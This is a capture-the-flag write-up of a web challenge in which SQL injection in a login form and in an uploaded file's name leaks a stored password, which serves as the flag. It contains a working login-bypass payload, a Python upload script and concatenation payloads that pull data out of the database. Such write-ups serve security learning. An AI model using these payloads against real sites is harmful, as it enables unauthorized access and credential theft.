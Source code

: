 # Fantasy Gallery

Here is my writeup of the third web challenge of a private CTF. (Challenge by Mizu)

Task: A new website as been create to manage a galery. Link was wanted to use it in order to store is beautifull landscape pictures, but before He asked you to check the site security. Can you help him verifying it?

## First look

![first_look](images/first_look.png)

We can already see that the challenge is about files to upload.

There are 3 pages: welcome page, gallery and login. We can't access to gallery without being logged in so will try to log first.

Let's take a look to /robots.txt:

```
User-agent: *
Disallow: /init.db
```

Oh! There is an interesting path! Let's take a look:

```
CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    password TEXT NOT NULL
);

CREATE TABLE IF NOT EXISTS gallery (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    userID TEXT NOT NULL,
    file_name TEXT NOT NULL,
    file_length TEXT NOT NULL,
    file_content TEXT NOT NULL
);

INSERT INTO users (username, password) VALUES ("*sensored*", "*sensored*");
```

There are 3 sql queries and we can guess we have to steal user credentials, maybe an sql injection ? 

## First exploitation

As we guess, we can login with an sql injection in login form

Username: ``'or 1=1 -- -``

Password: ``foobar``

![gallery](images/gallery.png)

We have an access to the gallery! Now we have to think about an exploit which can steal credentials, there was an sql injection in login form so we can guess there is also an sql injection on the submit.

We can imagine the query like that: ``INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', '<FILENAME>', '100', 'file_content')``

To check that we'll try to submit a file with a single quote and check if the server likes that.

I wrote a little code in Python to make the upload of files easier:

```py
import requests
from bs4 import BeautifulSoup as bs

file_name = input("Filename: ")

files = {
    'image': 
    (
        file_name, 
        open('image/test.png','rb'), 
        'image/png'
    )
}

cookies = {"session":"<SESSION_COOKIE>"}

r = requests.post("http://fantasygallery.ec2qualifications.esaip-cyber.com/gallery", files=files, cookies=cookies)


print(f"Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', '{file_name}', '100', 'file_content')")
print()
print(f"Status: {r.status_code}")
print()

soup = bs(r.text, 'html.parser')

p = soup.find_all("p")[-1]
print(p.contents[0])
```

Let's try with a file named ``foo'``:
```
[Fantasy Gallery]~$ python3 fantasy_gallery.py 

Filename: foo'
Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'foo'', '100', 'file_content')
Status: 500

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Yeah! We were right! There is an sql injection on file upload.

## Exploitation

Now we have to find a way to leak informations, let's try to know which SGBD is used first.

We'll try with sqlite, to display sqlite database version we have to do this request: ``select sqlite_version()``, let's try to inject it.

But how ? We can escape the quote but how can we get this ? We are going to us concatenation whith ``||``. Some databases are allowing it so let's cross the fingers.

Our filename will be ``version: '||(select sqlite_version())||'``.

The query will be: ``INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'version: '||(select sqlite_version())||'', '100', 'file_content')``, so there is not any error.

Let's try!
```
[Fantasy Gallery]~$ python3 fantasy_gallery.py

Filename: version: '||(select sqlite_version())||'

Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'version: '||(select sqlite_version())||'', '100', 'file_content')
Status: 200

version: 3.34.1
```

Let's go we are close to succeed! We just have to make a request to users table and we'll get our flag!

Payload for the username: ``leaked: '||(select username from users)||'``

Payload for the password: ``leaked: '||(select password from users)||'``

```
[Fantasy Gallery]~$ python3 fantasy_gallery.py 

Filename: leaked: '||(select password from users)||'
Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'leaked: '||(select password from users)||'', '100', 'file_content')
Status: 200

leaked: R2Lille{SQL1_4r3_3v3ryWh3R3}
```

Yeah! Here is our flag: ``R2Lille{SQL1_4r3_3v3ryWh3R3}``